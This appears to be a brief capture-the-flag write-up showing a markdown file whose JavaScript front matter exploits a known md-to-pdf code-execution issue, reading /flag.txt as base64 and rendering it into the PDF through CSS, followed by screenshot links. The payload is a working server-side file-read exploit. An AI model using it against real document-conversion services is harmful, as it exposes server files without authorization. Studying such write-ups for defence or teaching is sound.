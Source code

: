 # My little website
```
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt', 'base64')}"; display: block }`,
}
---
```

Reference: https://github.com/simonhaenisch/md-to-pdf/issues/99 
Somehow if i encode it with utf-8 it's not visible? so i encoded it with base64.

![](Pasted%20image%2020220912170611.png)

![](Pasted%20image%2020220912170634.png)
